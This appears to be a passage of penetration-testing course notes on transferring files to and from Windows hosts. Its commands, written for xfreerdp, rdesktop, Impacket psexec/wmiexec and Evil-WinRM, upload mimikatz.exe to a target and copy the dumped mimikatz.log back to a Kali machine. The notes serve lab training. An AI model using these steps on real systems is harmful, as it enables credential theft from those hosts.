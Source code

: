 ### RDP mounting shared folder:

```bash
# Kali:
xfreerdp /cert-ignore /compression /auto-reconnect /u:
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-
200

# windows:
copy mimikatz.log \\tsclient\test\mimikatz.log

# rdesktop:
# Kali: 
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200

#  Windows:
copy mimikatz.log \\tsclient\test\mimikatz.log
```

### Impacket

```powershell
# psexec and wmiexec are shipped with built in feature for file transfer.
# Note: By default whether you upload (lput) or download (lget) a file, it'll be written in C:\Windows path.
# Uploading mimikatz.exe to the target machine:
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe

# Downloading mimikatz.log:
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```
### Evil-winrm
```powershell
# Uploading files:
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
# Downloading files:
download mimikatz.log /home/kali/Documents/pen-200
```

###  C2 frameworks:
-  Almost any of the C2 frameworks such as Metasploit are shipped with downloading and uploading functionality.
- In FTP, binaries in ASCII mode will make the file not executable. Set the mode to binary.
- Additional Resources:
- File Transfer:  https://www.youtube.com/watch?v=kd0sZWI6Blc
- PEN-100: https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100/books-and-videos/modal/modules/file-transfers
